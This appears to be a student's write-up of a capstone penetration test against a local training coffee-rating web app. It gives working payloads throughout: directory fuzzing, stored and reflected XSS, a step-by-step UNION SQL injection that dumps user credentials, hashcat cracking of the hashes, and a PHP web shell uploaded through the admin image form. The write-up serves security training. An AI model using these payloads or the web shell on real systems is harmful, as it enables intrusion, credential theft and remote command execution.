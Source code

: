 ## Capstone
- Small app with some login functionality, view different coffee, add ratings, etc.
- Objective: Pen test the app
- This is not about finding a single critical vulnerability
- This is about finding all impactful vulnerabilities

### Normal App Functionality
- Click "View" or "Add rating" to see coffee details
- Coffee ID is shown in URL
- Adding a rating requires to be logged in
- Try logging in with `user` and `pass`
- App says "Login failed!", which is included in the URL
- Try signing up with `user` and `pass`
- App says "You successfully signed up! Please log in.", also in URL
- Login with `user` and `pass`
- App says "You successfully logged in!", in URL
- Add a comment to a coffee
- App says "Rating submitted successfully."
- Customer rating is adjusted and the comment is displayed
- Log out and app says "You are now logged out!", in URL

### User Input Locations
- Sign up
- Log in
- Add rating
- URL Message
- URL Coffee ID

### Enumeration
- Run `ffuf -u http://localhost/capstone/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php -recursion`

  ![image](https://github.com/user-attachments/assets/e0cbf4d1-ef9e-4269-ab1d-ca05a7775ca4)

- Notice the `/admin/admin.php` endpoint


### Add Rating:
  - Enter `<h1>test</h1>` and the app shows a header "test" as a comment
  - Enter `<marquee onstart="alert(1)">XSS</marquee>` and the app shows "XSS" as a marquee
  - This is stored XSS

  ![Screenshot 2025-01-08 005553](https://github.com/user-attachments/assets/701012e7-02ac-4146-b066-82247d5e3ba3)

### URL Message:
- Change the message in `php?message=You successfully logged in!` to `test` and app says "test"
- Change message to `<h1>test</h1>` and the app shows a header "test"
- Change message to `<marquee onstart="alert(1)">XSS</marquee>` and the app shows "XSS" as a marquee
- This is reflected XSS

  ![Screenshot 2025-01-08 005739](https://github.com/user-attachments/assets/536ba7a8-3959-4f27-9042-b9ea9affb371)

### URL Coffee ID
- Change the coffee id to `' or 1=1-- -` and the app shows all the coffees' details
- Change the coffee id to `' union select null,null,null,null,null,null,null-- -` and the app shows an empty coffee details
- Replace the second `null` to `'string'` to change the coffee name to `string`
- Replace `string` with `version()` to see the database version
- Replace `version()` with `table_name` and append ` from information_schema.tables` to the last null to see all the table names
- Replace 'table` with `column` and `tables` to see all the columns
- Replace `column_name` with `username`, the null after to `password`, and `information_schema.columns` with `users` to see all the usernames and passwords
- This is SQli

  ![image](https://github.com/user-attachments/assets/328d1006-3eae-41c8-92e9-75e1ac1bbfd1)

### Password Cracking
- The `$2` indicates the hashes are blowfish
- Copy a couple hashes and paste them into a file named 'hashes`
- Run `hashcat -m 3200 hashes /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt`
- Hashcat cracked jeremy's password

  ![image](https://github.com/user-attachments/assets/5bb3201c-5c0f-42ed-8ce4-9a4bafe21cda)

### Admin
- Login with `jeremy` and `capatain1`
- Navigate to `/admin/admin.php` (from FFuf enumeration)
- Add new coffee page
- Includes a file upload for the coffee image
- Send request to repeater
- Remove most of the image data
- Enter `<?php system($_GET['cmd']); ?>` after some image data
- Change the file extension to `.php`
- Go to the home page and right click on where the image for the coffee should be and click open image in new tab
- Replace `png` with `.php?cmd=whoami`

  ![image](https://github.com/user-attachments/assets/615d6b26-6503-4f24-af25-e1ffaa7eee67)











